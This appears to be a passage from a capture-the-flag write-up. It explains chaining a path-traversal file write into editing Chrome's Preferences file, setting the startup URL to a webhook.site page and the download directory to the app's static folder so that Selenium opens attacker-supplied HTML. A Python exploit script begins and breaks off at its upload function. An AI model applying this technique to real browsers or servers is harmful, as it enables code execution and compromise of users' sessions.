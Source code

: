 ```bash
 DIPS                           'Login Data For Account-journal'    'Shared Dictionary'/               heavy_ad_intervention_opt_out.db-journal
 DawnGraphiteCache/             'Login Data-journal'                 SharedStorage                     optimization_guide_hint_cache_store/
 DawnWebGPUCache/               'Network Action Predictor'           Shortcuts                         parcel_tracking_db/
'Download Service'/             'Network Action Predictor-journal'   Shortcuts-journal                 shared_proto_db/
'Extension Rules'/              'Network Persistent State'          'Site Characteristics Database'/   trusted_vault.pb
'Extension Scripts'/             PersistentOriginTrials/            'Sync Data'/
'Extension State'/               Preferences                        'Top Sites'
```

In default directory we can see there are storage and configuration files, let’s check Preference file

Preference file is a giant JSON collection of user settings.

- In Chrome, it's possible to set a custom **homepage URL** that loads automatically when the browser starts. This behavior can be leveraged to open any desired URL at launch. **`~startup url`**
- Additionally, Chrome allows you to change the **`default download directory`**. Instead of saving files to the standard `~/Downloads` folder, you can configure it to download to a custom path of your choice.

We have arbitrary file write vulnerability and in this preference file one can write the startup url and set the download directory.

So what if we just write a webhook_url in startup_url and host a html file in the [webhook.site](http://webhook.site) and it will be downloaded (set the content-type acc. so it get downloaded instead of opening as web page) in the folder of our choice (suppose, `/app/static`) 

And once it is downloaded we can give the url `http://localhost:1337/static/<filename>.html` to selenium to visit the webpage we downloaded it and it will be opened as HTML/ javascript.

Sounds overwhelming 😃 ?? Once again read the last para u will understand 😌

---

Below [0] script will login and register through instance where we will exploit path traversal and [1] we will change the preference file of diff account and [2]use the instance id of that diff account u manually just normally create the account:

```python
------------script 1------------
import requests
import os
import json
import re

HOST = "http://localhost:1337"

session = requests.Session()

def register(username, password):
    request = session.post(HOST + "/api/register", json={
        "username": username,
        "password": password,
    })

def login(username, password):
    request = session.post(HOST+"/api/login", json={
        "username": username,
        "password": password,
    })

def upload(filename, content):
```